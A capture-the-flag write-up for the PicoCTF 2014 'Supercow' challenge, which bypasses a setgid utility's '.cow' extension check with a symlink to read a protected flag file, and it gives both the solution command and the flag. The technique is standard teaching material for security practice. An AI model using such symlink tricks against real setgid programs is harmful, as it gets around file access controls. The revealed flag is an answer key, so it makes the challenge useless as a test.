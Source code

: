 # Pico CTF 2014 : Supercow

**Category:** Forensics
**Points:** 40
**Description:**

>Daedalus Corp. has a special utility for printing .cow files at /home/daedalus/supercow. Can you figure out how to get it to print out the flag?

**Hint:**
>Read up on [symlinks](http://en.wikipedia.org/wiki/Symbolic_link) in Linux.

## Write-up

We login to the [Shell](https://picoctf.com/shell) and checkout the directory in question:

```
shell:/home/daedalus$ ls -la
total 36
drwxr-xr-x  2 root root     4096 Jul  6  2015 .
drwxr-xr-x 19 root root     4096 Jul  6  2015 ..
-r--r-----  1 root daedalus   26 Jul  6  2015 flag.txt
-r--r-----  1 root daedalus   15 Jul  6  2015 hint.cow
-r--r-----  1 root daedalus   11 Jul  6  2015 secret1.cow
-r--r-----  1 root daedalus   11 Jul  6  2015 secret2.cow
-rwxr-sr-x  1 root daedalus 7639 Jul  6  2015 supercow
-rw-r--r--  1 root root     1723 Jul  6  2015 supercow.c
```

Let's try supercow with the files in the dir:

```
@shell:/home/daedalus$ ./supercow secret1.cow
 ____________
< cow_text_1 >
 ------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
@shell:/home/daedalus$ ./supercow secret2.cow
 ____________
< cow_text_2 >
 ------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
@shell:/home/daedalus$ ./supercow hint.cow
 ________________
< perhaps_a_hint >
 ----------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
@shell:/home/daedalus$ ./supercow flag.txt
Filename must end in .cow
```

And let's also check out supercow.c

```
@shell:/home/daedalus$ cat supercow.c
/*
 * The below isn't critical to solving the problem, but read on if
 * you're interested!
 *
 * You might be wondering - why is it that the supercow program is able
 * to read the /home/problemuser/secret1.cow file, but trying to read it
 * with:
 *
 * cat /home/problemuser/secret1.cow
 *
 * gives a permission denied error?
 *
 * supercow is a setgid program. This means that when you run supercow,
 * it runs with the privileges of problemuser instead of your user. That
 * is why the supercow program can access /home/problemuser/secret1.cow
 * (and potentially /home/problemuser/flag), even though it is not
 * readable by your normal user.
 *
 * $ ls -l supercow
 * -rwsr-xr-x 1 problemuser root [size in bytes] [last modified time] supercow
 *    ^ this s signifies that supercow is setgid. This means that
 *      supercow runs with the privileges of its owner user, which is
 *      problemuser.
 *
 * For more information about how this works, see
 * http://en.wikipedia.org/wiki/Setuid, or feel free to ask an organizer
 * :-)
 */
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char **argv) {
  if (argc < 2) {
    printf("Usage: super_cow [cow_file]\n");
    return 1;
  }

  char *file = argv[1];
  char *ext = strrchr(file, '.');
  if (ext == NULL || strcmp(ext, ".cow") != 0) {
    printf("Filename must end in .cow\n");
    return 1;
  }

  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open");
    return 1;
  }

  dup2(fd, 0);

  gid_t gid = getegid();
  setregid(gid, gid);

  char *arg[] = { "/usr/games/cowsay", NULL };
  char *env[] = { NULL };
  execve(arg[0], arg, env);
  return 1;
}
```

We observe that the C code checks if the file's extension is .cow and only then passes it on as an argument to our setgid cowsay. Since the supercow binary has the setgid bit on it is executed as its group user instead of our own user. So if we manage to pass the flag.txt to the binary and pass the check for the extension we should be able to read the flag with the permissions from group daedalus.
The hint suggests using symlinks since we don't have any other (simple) way to read/copy the file or alter it's permissions or owner/group.

We can do:

```
ln -siv /home/daedalus/flag.txt ~/flag.cow
```

The supercow binary will then pass the extension check since our symlink ends in .cow and it will read the actual flag since the open() call will follow the symlink.

```
@shell:/home/daedalus$ ./supercow ~/flag.cow
 ___________________________
< cows_drive_mooooving_vans >
 ---------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

**cows_drive_mooooving_vans** is our flag.

## Other write-ups and resources

* none yet
